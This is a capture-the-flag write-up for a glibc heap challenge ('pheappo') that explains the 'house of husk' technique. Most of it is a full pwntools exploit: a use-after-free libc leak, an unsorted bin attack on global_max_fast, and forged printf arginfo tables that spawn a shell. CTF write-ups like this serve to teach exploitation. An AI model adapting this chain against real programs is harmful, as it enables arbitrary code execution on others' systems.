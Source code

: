```yaml
---
layout: post
title:	"Agenzia Entrate"
date:	2021-04-16
author: "Maxpnl, NicolaVV"
---
```


### Chall Description

That was a standard heap pwnable with some restrictions:
- Can alloc only chunks with size in range(1040, 38400), which goes to unsorted bin after free
- UAF possible, but not double free because of some additionals checks enforced with the global array `bitmap`
- Can't overwrite malloc_hook and free_hook

To exploit under those conditions I ended up using this known technique which i didn't know the existence of, [house of husk](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507), pretty cool exploit chain which make use of a very strange printf functionality. Did you know that...

> The GNU C Library lets you define your own custom conversion specifiers? 

No? Well neither did I. Find out more about this at [http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html](http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html)

The exploit is mainly an implementation of `house-of-husk` technique so I'm not gonna explain it deeply, since you can find more detailed information in the linked post. I tried to divide the exploit in sections like the post author's did, so it should be easier to follow it. 

Thanks to the organizers for those nice challenges, actually learnt a lot of new stuffs :).

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF("pheappo")
libc = ELF("libc.so.6")

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("challs.ctf.m0lecon.it", 9001)
    else:
        return process([exe.path] + argv, env={'LD_PRELOAD': "./libc.so.6"}, *a, **kw)

def flush():
    return io.recvuntil(b'Choice: ', drop=True)

def create(sz):
    io.sendline(b'1')
    io.recvuntil(b'Size: ')
    io.sendline(f'{sz}'.encode())
    return flush()

def read(idx):
    io.sendline(b'2')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    leak = io.recvuntil(b'<=== Menu ===>', drop=True)
    flush()
    return leak

def write(idx, data):
    io.sendline(b'3')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    io.recvuntil(b'Data: ')
    io.sendline(data)
    return flush()

def delete(idx):
    io.sendline(b'4')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    return flush()

def quit():
    io.sendline(b'5')


if __name__ == "__main__":       
    io = start()
    
    # 1) Leak libc address
    create(1040) # to leak libc_main_arena with UAF
    '''
    2 chunks to achieve relative a overwrite with free
    more on this tecnique @ https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack/
    - briefly, after setting global_max_fast to a big value, every chunk is gonna be treated as a 
    fastbin chunk, so every free is gonna put the chunk in main_arena.fastbinsY[out_of_bound_idx], achieving
    an out of bound write of a heap pointer in the libc
    E.G)
        - size=1040 + 0x10*i writes to main_arena + 528 + i*8
    '''
    get_i = lambda off_from_arena : (off_from_arena - 528) // 8
    create(1040 + 0x10 * get_i(libc.sym.__printf_arginfo_table - libc.sym.main_arena))
    create(1040 + 0x10 * get_i(libc.sym.__printf_function_table - libc.sym.main_arena))

    delete(0)
    chunk0leak = read(0)
    # leak &main_arena.unsortedbin
    libc_mainarena_unsortedbin = u64(chunk0leak[:8])

    libc.address = libc_mainarena_unsortedbin - 2116768
    log.info(f'libc_base: {libc.address:x}')
    onegadget = libc.address + 0x4f322 - 0x1e7000
    log.info(f'one_gadget: 0x{onegadget:x}')

    # forge fake __printf_arginfo_table so that tbl['%d'] = one_gadget
    fake_tbl = flat({ 
        784 : onegadget, # 0x4f322 0x10a38c
    }, filler=b'\x00')

    # 2) Make global_max_fast large with unsorted bin attack
    global_max_fast = libc.address + 2124096
    log.info('Do unsorted bin attack to overwrite global_max_fast...')
    where = global_max_fast-0x10
    write(0, p64(0) + p64(where))
    create(1040)

    # 3) Write the address of a fake arginfo table to __printf_arginfo_table by "relative overwrite"
    log.info('Write chunk1payload_ptr-0x10 to __printf_arginfo_table...')
    write(1, fake_tbl)
    delete(1)

    # 4) Write a non-null value to __printf_function_table by "relative overwrite"
    log.info('Write chunk2payload_ptr-0x10 to __printf_function_table...')
    delete(2)

    # 5) call printf to call onegadget
    log.success("Get shell")
    quit()

    io.interactive()
```